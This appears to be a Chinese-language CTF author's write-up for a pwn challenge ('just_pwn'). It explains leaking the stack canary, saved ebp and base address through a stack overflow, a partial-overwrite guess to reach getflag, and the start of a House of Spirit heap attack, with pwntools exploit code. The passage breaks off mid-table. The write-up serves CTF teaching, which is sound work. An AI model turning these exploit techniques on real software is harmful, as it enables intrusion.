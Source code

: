   ```
  padding = 'iv=' + iv + ';CipherLen=0096;CipherText=' + Cipherpart0 + Cipherpart1 + Cipherpart2 + ';'
  just_pwn.sendline(padding)
  ```

## 第二关
思路是通过buybuybuy函数递归抬高栈顶，再通过getProfessional里的栈溢出获得canary, ebp和程序的基地址信息。对于获得canary,ebp大家都用的是我的思路，但是在获得程序基地址信息的时候又有了非预期。   
buybuybuy函数一次消费的money是4444，用两次就不够了，我想着如果你第二次栈溢出是为了获得程序流的话，在没有基地址的情况下是不可能的。但是我忘了自己为了方便选手而设置了一个getflag()函数，因为这里开了随机化，函数最后一个半字节是不变的，而getflag函数与getProfessional离得相当近，所以只用再猜半个字节就够了。（getflag函数在ida的地址为`.text:000000000000122C`, 其中`22c`是不变的，有位选手设置的为`522c`，就有几率调到getflag函数）。    
总结：还是让他们ROP然后自己计算system函数地址吧

以下是我的愚蠢的代码：
```python
def getData():
    just_pwn.sendline("3");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","y");
    just_pwn.sendlineafter("buy my software:\n","aaaaaaaa");
    just_pwn.recvuntil("So your reason is:\n");
    recv = just_pwn.recvuntil("But");
    canary = u64(recv[9:16].rjust(8,'\x00'))
    ebp = u64(recv[16:22].ljust(8,'\x00'))
    print hex(canary)
    print hex(ebp)
    
    just_pwn.sendline("3");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","n");
    just_pwn.sendlineafter("y to confirm\n","y");
    just_pwn.sendlineafter("buy my software:\n",'a'*23);
    recv = just_pwn.recvuntil("So your reason is:\n");
    recv = just_pwn.recvuntil("But");
    addr = u64(recv[24:30].ljust(8,'\x00')) - 0xa3 + 0x50
    print hex(addr)
    return [canary, ebp, addr]

  datalist = getData();
  canary = datalist[0]
  ebp = datalist[1]
  addr_buybuybuy = datalist[2]

```

## 第三关
基本上除了有两组在第二个栈溢出获得控制流以外，基本上大家都是在push message里用堆漏洞获得程序控制流。我就讲一下如何在这道题里构建House of Spirit攻击。   
在菜单里选择`1.push message`之后会让你先输入64位的`len`（`len`是`welcome`函数中声明的变量），再跳转到`leavemessage`函数，而`leavemessage`中的`buf`是我们要伪造的chunk的开头。我们先看看进入`leavemessage`函数后的栈分布：
|       |       |
|:-----:|:-----:|
|buf    |大小0x20|
|.....  |........|
|canary |大小0x8|
|ebp    |大小0x8|